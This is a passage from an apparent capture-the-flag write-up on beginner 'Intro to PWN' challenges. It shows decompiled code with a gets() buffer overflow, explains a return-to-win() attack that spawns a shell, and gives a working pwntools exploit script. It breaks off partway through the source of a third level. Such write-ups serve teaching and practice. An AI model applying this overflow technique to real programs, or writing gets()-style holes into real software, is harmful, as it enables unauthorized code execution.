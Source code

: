 ```
void vuln(void)

{
  char local_43 [59];
  
  gets(local_43);
  return;
}


undefined4 main(void)

{
  undefined *puVar1;
  
  puVar1 = &stack0x00000004;
  puts("Level 2: Control the IP\n");
  vuln(puVar1);
  return 0;
}
```

So basically what we need to do here is from the `gets` call in `vuln()`, we want to overwrite the return address to go to `win()`, at which point we would get shell access. Using the naming conventions given by Ghidra, since we are storing the input we send the program in `local_43`, we can overwrite the return address by writing `0x43` bytes of junk and then writing the address of `win()`. And conveniently for us, we can easily get the return address for `win()` using pwntools, giving us the following exploit:

```
from pwn import *

binary = context.binary = ELF('./pwnme')

p = process(binary.path)
payload = b''
payload += 0x43 * b'A'
payload += p32(binary.sym.win)

p.sendlineafter("Level 2: Control the IP\n", payload)
p.interactive()
```
Great! Just as before, the preceding code gets us shell access and getting the flag is now a piece of cake. Ok, let's do one last one!

# Intro to PWN 3

This one is similar to the previous one:

```
#include <stdlib.h> 
#include <stdio.h> 

void win(unsigned int x){ 
    if (x != 0xdeadbeef){
        puts("Almost...");
	return;
    }
    system("/bin/sh");
} 

void vuln(){
    char buf[24]; 
    gets(buf); 
```